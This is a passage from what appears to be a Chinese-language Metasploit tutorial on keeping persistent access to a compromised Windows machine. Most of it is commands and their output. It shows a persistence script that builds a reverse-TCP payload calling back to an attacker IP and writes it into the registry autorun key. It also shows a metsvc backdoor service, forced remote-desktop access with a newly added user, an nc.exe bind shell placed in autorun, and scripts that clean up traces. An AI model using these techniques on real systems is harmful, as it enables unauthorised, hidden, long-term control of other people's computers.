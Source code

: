### 通过persistence脚本

```shell
# -X 开机自启动
# -i <num> payload重连的间隔时间
# -p 反向连接端口号
# -r 反向连接IP地址
#
# 更多使用方法请参考帮助 run persistence -h
meterpreter > run persistence -X -i 5 -p 4444 -r 192.168.3.12
[*] Running Persistance Script
[*] Resource file for cleanup created at /root/.msf5/logs/persistence/EVAN_20160604.3957/EVAN_20160604.3957.rc
[*] Creating Payload=windows/meterpreter/reverse_tcp LHOST=192.168.3.12 LPORT=4444
[*] Persistent agent script is 148461 bytes long
[+] Persistent Script written to C:\DOCUME~1\wangjun\LOCALS~1\Temp\VKZehDGmg.vbs
[*] Executing script C:\DOCUME~1\wangjun\LOCALS~1\Temp\VKZehDGmg.vbs
[+] Agent executed with PID 3892
[*] Installing into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\UymiaoVKhfXxH
[+] Installed into autorun as HKLM\Software\Microsoft\Windows\CurrentVersion\Run\UymiaoVKhfXxH
```

### 通过metsvc服务的方式

运行`run metsvc`将会在目标主机上以Meterpreter的服务的形式注册在服务列表中，并开机自动自动。运行`run metsvc -r`卸载目标主机上的Meterpreter服务。

```shell
meterpreter > run metsvc
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\DOCUME~1\wangjun\LOCALS~1\Temp\PCDqsWgh...
[*]  >> Uploading metsrv.x86.dll...
[*]  >> Uploading metsvc-server.exe...
[*]  >> Uploading metsvc.exe...
[*] Starting the service...
     * Installing service metsvc
 * Starting service
Service metsvc successfully installed.
```

### 通过开启远程桌面

```shell
# 强制开启目标主机远程桌面并自动添加用户名为metasploit密码为meterpreter的用户
run getgui -u metasploit -p meterpreter
# 上面命令会生成清理痕迹的ruby的脚本文件，位置在/root/.msf4/logs/scripts/getgui/clean_up_xxxxx.rc
# 当操作完目标用户后可以使用此脚本清理痕迹、关闭远程桌面服务和删除创建的用户
un multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up_xxxxx.rc
```

### 通过nc上传新的后门

```shell
# 上传nc.exe至目标主机
meterpreter > upload /root/Desktop/nc.exe c:\\windows\\system32
# 枚举查看注册表启动项
meterpreter > reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
# 将nc.exe设置到注册表启动项中
meterpreter > reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d 'c:\windows\system32\nc.exe -Ldp 455 -e cmd.exe'
# 查看以确定nc已经被设置到注册表启动项中
meterpreter > reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc
# 进入目标系统cmd
eterpreter > execute -f cmd -i
# 查看目标系统当前防火墙规则
c:\Document and Setting\rush\Desktop > netsh firewall show opmode
# 将nc开放的端口加入到目标系统防火墙规则中
```